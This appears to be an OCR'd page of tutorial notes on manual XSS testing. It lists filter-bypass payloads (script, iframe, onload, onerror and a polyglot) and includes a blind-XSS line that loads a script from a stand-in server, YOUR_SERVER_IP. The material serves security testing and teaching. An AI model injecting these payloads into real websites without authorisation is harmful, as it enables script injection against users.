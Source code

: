 ```
```
<script>alert(1)</script> 
```
- This is the most generic XSS payload. It will generate a popup box if the payload succeeds.
```
<iframe src=javascript:alert(1)>
``` 
- This payload loads JavaScript code within an iframe. It’s useful when ```<script>``` tags are banned by the XSS filter
```
<body onload=alert(1)> 
```
- This payload is useful when your input string can’t contain the term script. 
- It inserts an HTML element that will run JavaScript automatically after it’s loaded.
```"><img src=x onerror=prompt(1);>```
- This payload closes out the previous tag. It then injects an ```<img>``` tag with an invalid source URL. 
- Once the tag fails to load, it will run the JavaScript specified in the onerror attribute.
```<script>alert(1)<!– 
```
- <!- is the start of an HTML comment. This payload will comment out the rest of the line in the HTML document to prevent syntax errors.
- Search XSS payloads online for more ideas. 
- That said, taking a long list of payloads and trying them one by one can be time-consuming and unproductive. 
- Another way of approaching manual XSS testing is to insert an XSS polyglot, a type of 
XSS payload that executes in multiple contexts. 
- For example, it will execute regardless of whether it is inserted into an ```<img>``` tag, a ```<script>``` tag, or a generic ```<p>``` tag and can bypass some XSS filters. 
- Take a look at this polyglot payload published by EdOverflow at https://polyglot.innerht.ml/:
```
javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>
```
- This payload contains multiple ways of creating an XSS—so if one method fails, another one 
can still induce the XSS. 
- It contains multiple ways of creating an XSS—so if one method fails, another one can still induce the XSS.
- Another way of testing for XSS more efficiently is to use generic test strings instead of XSS payloads. 
- Insert a string of special HTML characters often used in XSS payloads, such as the following: >'<"//:=;!--. Take note of which ones the application escapes and which get rendered directly.
- Then you can construct test XSS payloads from the characters that you know the 
application isn’t properly sanitizing.
- Blind XSS flaws are harder to detect; since you can’t detect them by looking for reflected input, you can’t test for them by trying to generate an alert box. 
- Instead, try making the victim’s browser generate a request to a server you own. 
- For example, you can submit the following payload, which will make the victim’s browser request the page /xss on your server: 
```
<script src='http://YOUR_SERVER_IP/xss'></script>
```
- Then, you can monitor your server logs to see if anyone requests that page. 
- If you see a request to the path /xss, a blind XSS has been triggered! 
- Tools like XSS Hunter (https://xsshunter.com/features) can automate this process.
- Finally, although hackers typically discover new XSS vectors manually, a good way to automatically test a site for already-known XSS vectors is through fuzzing.
